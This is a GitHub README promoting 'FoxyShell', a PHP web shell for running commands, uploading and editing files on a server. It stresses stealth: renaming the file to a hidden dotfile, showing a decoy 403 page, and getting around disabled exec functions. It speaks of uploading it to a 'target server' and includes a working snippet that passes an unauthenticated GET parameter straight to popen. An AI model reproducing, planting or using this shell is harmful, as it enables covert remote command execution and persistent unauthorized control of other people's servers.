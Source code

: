 # FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .log.php), e.g. `foxyshell.php` → `.log.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden`, The text color will change to orange when selected. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.log.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
